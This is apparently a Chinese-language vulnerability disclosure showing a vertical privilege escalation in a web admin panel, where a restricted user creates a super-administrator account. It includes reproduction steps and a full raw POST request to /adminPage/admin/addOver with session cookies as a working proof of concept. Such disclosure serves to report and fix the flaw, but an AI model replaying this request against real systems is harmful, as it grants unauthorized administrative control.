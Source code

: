 管理员管理处可以受限用户越权添加超管账户等操作，造成权限提升。



## 漏洞复现

以admin账户新增111（受限用户）与admin（超管）

![image-20250324155546659](垂直越权.assets/image-20250324155546659.png)

登录111（普通用户）后，可见没有管理员管理页面

![image-20250324155754658](垂直越权.assets/image-20250324155754658.png)

输入poc

**POST** /adminPage/admin/addOver **HTTP/1.1**

**Host**: 192.168.8.121:8080

Accept-Encoding: gzip, deflate

**Cookie**: **SOLONID**=**439ca6e246044c969dd6ee1fd45c70b9**; **JSESSIONID**=**__u0nVg1kvL_EaRs7rXYFnbY0bsUesncWhRcswBd**

Accept-Language: zh-CN,zh;q=0.9

Upgrade-In**secure-Requests**: 1

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

**Referer**: http://192.168.8.121:8080/adminPage/remote

**Content-Type**: **application/x-www-form-urlencoded**



**id**=&**name**=**1234**&**api**=**false**&**type**=**0**&**parentId**=

![image-20250324155916698](垂直越权.assets/image-20250324155916698.png)

可见成功创建管理员账户

![image-20250324160136498](垂直越权.assets/image-20250324160136498.png)